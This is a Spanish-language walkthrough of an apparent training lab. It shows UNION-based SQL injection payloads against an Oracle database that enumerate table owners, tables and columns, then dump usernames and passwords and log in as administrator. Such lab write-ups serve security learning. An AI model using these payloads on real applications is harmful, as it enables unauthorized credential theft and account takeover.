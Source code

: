 ```mysql
' union select NULL,owner from all_tables-- -
```

Y aparecerian estas...

```
|APEX_040000|
|CTXSYS|
|MDSYS|
|PETER|
|SYS|
|SYSTEM|
|XDB|
```

La mas curiosa es la de `PETER`, si queremos filtrar por esa tabla en concreto, lo que haremos sera...

```mysql
' union select NULL,table_name from all_tables where owner='PETER'-- -
```

Con esto lo que hacemos es que nos muestre las tablas o columnas en las que `PETER` tiene privilegios altos indicandole el `owner`...

```
|PRODUCTS|
|USERS_NADZKF|
```

Sabiendo que `USERS_NADZKF` es la que queremos ver, para ver las columnas que contiene esa tabla, lo que haremos sera lo siguiente...

```mysql
' union select NULL,column_name from all_tab_columns where table_name='USERS_NADZKF'-- -
```

Y aparecera lo siguiente...

```
|EMAIL|
|PASSWORD_MJWVFY|
|USERNAME_UGMMPB|
```

Y para poder ver el contenido del `username` y del `password` haremos lo siguiente...

```mysql
' union select NULL,PASSWORD_MJWVFY||':'||USERNAME_UGMMPB from USERS_NADZKF-- -
```

Veremos esto...

```
|2nwbzbzmt1znmwdtb02r:wiener|
|gl4x0f8gfbciozsmeqk4:administrator|
|re1ubcoda6pcoz8176aq:carlos|
```

Por lo que nos logeamos con el de `admin` y ya estaria...
